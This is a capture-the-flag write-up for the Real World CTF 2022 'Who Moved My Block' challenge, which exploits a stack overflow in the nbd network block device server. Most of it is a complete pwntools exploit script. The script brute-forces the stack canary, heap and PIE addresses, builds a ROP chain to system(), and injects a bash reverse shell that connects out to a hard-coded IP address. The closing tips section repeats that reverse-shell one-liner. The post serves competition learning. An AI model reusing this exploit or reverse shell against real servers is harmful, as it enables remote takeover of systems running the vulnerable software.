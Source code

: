 ```yaml
---
title: Who Moved My Block-Real World Stack Overflow
date: 2022-01-23 16:22:21
tags: 
---
```

Who Moved My Block, rwctf 2022
<!--more-->

# Prelude

Real world CTF is my first CTF in 2022, I had a great time with my teammates@r3kapig! Especially thanks to @2019 @crazyman, we solved the challenge together!

This challenge is my first real-world challenge. Someone calls it “clone and pwn” challenge, which means we should clone the latest version of the project and pwn it with 0day vulnerability.

Also, nbd is a small project and we could finish the code review part quickly.

# Set-up
Challenge Attachment: `https://github.com/n132/attachment/blob/main/RWCTF_2022/WhoMovedMyBlock_471d96239f86cb3f7c61991b44d74623.zip`

Project Link: [https://github.com/NetworkBlockDevice/nbd](https://github.com/NetworkBlockDevice/nbd)

Commit: 5750003711b8050bad3ddaf5196201ef419ce15d

Make:

```bash
./configure --enable-debug && \\
make && \\
make install
```

# Solution

The solution is similar to **CVE-2018-1160, Metatalk in Hitcon 2021.**

1. Read the source code and find the vulnerability.
2. I find two vulnerabilities one `Heap-Overflow` and one `Stack-Overflow`in function `handle-info` 
3. The `heap-overflow` is hard to use, cuz we need to construct the heap Fengshui carefully.
4. While the `Stack-Overflow` one is easy to use, we could get the addresses of pie/heap/canary by judging the statement of connection (crash or hang).
5. ROP to get a reversed shell

# Exp

```python
from code import interact
from distutils.dir_util import copy_tree
from re import sub
from pwn import *
import subprocess
#context.log_level = 'debug'
context.arch='amd64'
DEBUG = 0
if(DEBUG):
    ip = "0.0.0.0"
    port = 6666
else:
    ip = "47.242.113.232"
    port =49265
p = None
ru = lambda x: p.recvuntil(x)
rl = lambda  : p.recvline()
ra = lambda  : p.recvall()
rv = lambda x: p.recv(x)
sn = lambda x: p.send(x)
sl = lambda x: p.sendline(x) 
sa = lambda x,y: p.sendafter(x,y) 
def pow():
    ru('sha256("')
    tmp = ru('"')[:-1].decode()
    c1 = "gcc ./pow.c -lcrypto -o ppp".split(' ')
    c2 = f"./ppp {tmp}".split(' ')
    c3 = "rm ./ppp".split(' ')
    subp = subprocess.Popen(c1)
    subp.wait()
    print(c2)
    subp = subprocess.Popen(c2)
    res,_ = subp.communicate()
    subp = subprocess.Popen(c3)
    subp.wait()
    print(res,_)
def anum(n):
    sn(p32(n,endian='big'))
def NBD_OPT_EXPORT_NAME(payload):
    anum(1)
    anum(len(payload))
    sn(payload)
def NBD_OPT_LIST():#baned
    sn(p64(0x54504f4556414849))
    anum(3)
    anum(1)    
def NBD_OPT_STARTTLS(size,c):#Set stack
    anum(5)
    anum(size)
    sn(c)
def NBD_OPT_INFO(buf):
    anum(7)
    anum(len(buf)+4)
    anum(len(buf)+4)
    sn(buf)
    p.read()
    pad = b" "*0x10+b'''sleep 3;bash -c 'exec bash -i &>/dev/tcp/49.234.220.122/20191 <&1';'''*0x6
    sn(pad.ljust(len(buf)+4,b'\0'))
    sn(p16(0,endian='big'))
    p.readuntil("nown")
def single_req(base,guess):
    global p
    p = remote(ip,port)
    sa("OPT\x00\x03",p32(0))
    sn(p64(0x54504f4556414849))
    NBD_OPT_INFO(base+guess)
    p.read(timeout=1)
def req(base,length):
    res = b""
    global p
    for x in range(length):
        flag=0
        for _ in range(0x100):
            log.success(f"Trying Pos:{x}:{hex(_)}")
            try:
            #if(1):
                guess = _.to_bytes(1,'little')
                single_req(base+res,guess)
                res+=guess
                flag=1
                break
            except:
                p.close()
                continue
        if(not flag):
            return 0
        log.warning(hex(u64(res.ljust(8,b'\0'))))
    res = u64(res.ljust(8,b'\0'))
    log.warning(hex(res))
    input()
    return res
def canary():
    base=b"A"*(0x408)+b'\0'
    length=7
    return req(base,length)
def leak_heap():
    global p

    base = b"A"*(0x408)+ p64(canary_val) +b"\0"*0x18
    length = 6
    return req(base,length)
def leak_pie():
    global p
    base = b"A"*(0x408)+ p64(canary_val) +b"\0"*0x18
    base+= p64(heap)+p64(0)+p64(heap-0x100)+p64(0)+b"\xea"
    length= 5
    return req(base,length)
def exploit(c):
    global p
    p = remote(ip,port)
    sa("OPT\x00\x03",p32(0))
    sn(p64(0x54504f4556414849))
    pay = b"A"*(0x408)+p64(canary_val)+b"\0"*0x18
    pay += p64(heap)+p64(0)+p64(heap-0x100)+p64(0)+c
    NBD_OPT_INFO(pay)
    p.interactive()
if __name__ == "__main__":
    canary_val = canary()
    heap  = leak_heap()
    pie = leak_pie()-0x96ea

    ret = 0x000000000000301a+pie 
    rdi = 0x0000000000004a58+pie
    system = 0x3bb0+pie

    
    r = flat([
        ret,rdi,heap+0x100*2,system
    ])
    exploit(r)
```

# Skills

I learned some useful skills from my teammates:

1. Use sleep xxx; to judge if the remote server is running our command.
2. System function behave different as the shell. `bash -c 'exec bash -i &>/dev/tcp/<>ip address/<port> <&1';` could work well. Before attack remotely, we could test the command locally first `system(<cmd>)` .